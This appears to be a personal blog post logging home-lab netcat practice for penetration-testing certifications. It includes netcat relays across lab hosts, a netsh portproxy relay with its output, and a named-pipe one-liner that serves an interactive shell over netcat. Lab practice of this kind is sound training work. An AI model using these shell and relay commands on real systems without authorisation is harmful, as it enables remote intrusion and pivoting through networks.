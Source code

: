 ```yaml
---
layout: post
title: Netcat practice
category: Tools
author: adricnet
---
```


This morning with much coffee I'm working between email to practice netcat between hosts for GSE, PWK, and generally building good character.

**Refs**

* https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem
* http://wiki.securityweekly.com/wiki/index.php/Episode195#Tech_Segment:_Crazy-Ass_Netcat_Relays_for_Fun_and_Profit
* PWK Lab Manual (private)
* man nc (openbsd)
* sc and netsh from: https://securelist.com/blog/research/77403/fileless-attacks-against-enterprise-networks/

**Hosts**

* Archie: Win10 HP ProBook w/ VirtualBox: 192.168.0.15
  * Seven: Win7 IE11 VM provided by [Microsoft](https://modern.ie/): 10.0.2.15
* Gray: Chromebook (x64) w/ crouton 192.68.0.13
  * xenial: an Ubuntu chroot (Crouton)

Tasks
--

0. Networks up, Firewalls down, for class

  * [x] xenial : installed ufw, disabled firewall
  * [x] Seven : works better with DHCP on 
  * [.] ping xenial from seven
  * [.] ping archie from seven


1. Smoke tests

  * [x] nc on Archie listening (chat), nc on xenial connect 
  * [x] nc on Archie listening -e, nc on xenial connect
  * [x] nc on xenial listening, xenial connecting ... checking iptables/ufw 
  * [!] nc on Seven listening, nc on xenial connect? ... NAT
  * [x] nc on xenial listening, nc on Seven connect
  * [x] nc on xenial listening chat/text, nc relay on archie, nc on Seven connect
    * [!] ```seven> nc -v 192.168.0.15 4433``` to ```archie> nc -v -l -p 4433 | nc 192.168.0.13 4444``` no workee in PS
    * [x] ```seven> nc -v 192.168.0.15 4433``` to ```archie> nc -v -l -p 4433 | nc 192.168.0.13 4444``` works in cmd
    * [x] seven to archie to text file, text file into nc to xenial works fine
  * [x] nc on archie listening, nc on Seven connect
  * [!] nc on Seven listening, nc on archie connecting ... NAT
  * [x] while loop listener on xenial, persistent one way (L) relay on archie -> xenial 
 
1. Shovelling shells

  * [x] xenial persistent listen (while), archie relay (L), push shell output from archie
  * [x] xenial shovel shell from archie : ```xenial> while [ 1 ]; do cat /tmp/pipe | /bin/sh -i 2>&1 | nc -lp 4443 > /tmp/pipe; done```
  * [x] xenial shovel shell from seven (thru archie's persistent relay)
  * [x] seven push half a shell out to xenial (thru NAT)
  * [x] seven push half a shell out to xenial thru archie relay
  * [ ] 

1. Port proxy in netsh?

  * [.] seems to work as a relay just fine, running on archie:
  
```
netsh interface portproxy>add v4tov4 listenport=3333 connectaddress=192.168.0.8 connectport=8888 listenaddress=0.0.0.0

netsh interface portproxy>show all

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
0.0.0.0         3333        192.168.0.8     8888
```
Connecting from archie to the xenial chroot on Chromebook gray for chat
```
C:\Users\adric\Downloads>nc -v 192.168.0.15 3333
archimedes [192.168.0.15] 3333 (?) open
boo-weep?
```

```
xenial> nc -vlp 8888
Connection ...
boo-weep?
```
